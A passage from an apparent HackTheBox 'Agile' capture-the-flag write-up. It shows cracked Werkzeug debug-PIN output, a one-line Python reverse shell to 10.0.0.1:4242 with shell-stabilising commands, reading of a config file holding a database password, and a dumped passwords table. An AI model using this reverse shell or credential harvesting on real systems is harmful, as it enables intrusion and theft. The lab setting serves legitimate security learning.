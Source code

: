 ```
python3 ./pin_cracker.py
==========================================================================
116-841-486
('www-data', 'flask.app', 'wsgi_app', '/app/venv/lib/python3.10/site-packages/flask/app.py', '345052381550', 'ed5b159560f54721827644bc9b220d00superpass.service')
==========================================================================

```

And it worked!! The console is ready to go:

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_pincracked.png)

Now we can make a reverse shell to our machine.

```python
#IF YOU WANT TO EXECUTE CMD 
>>> __import__('os').popen('cmd').read();
```

```python
#MAKE A SHELL, SINCE WE ARE ON A PYTHON CONSOLE ALREADY
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

> After having got a reverse shell, we can stablize it with `python -c 'import pty; pty.spawn("/bin/bash")'`,  then `Ctrl + Z`, `stty raw -echo; fg; reset` then `export TERM=xterm`
>
> More details [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_wwwdata.png)

We have access as user `www-data`.

### User.txt

We have a mysql database on this machine, and the cred can be found here:

```bash
(venv) www-data@agile:/app$ cat /app/config_prod.json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

```mysql
mysql> select * from passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
5 rows in set (0.00 sec)
```
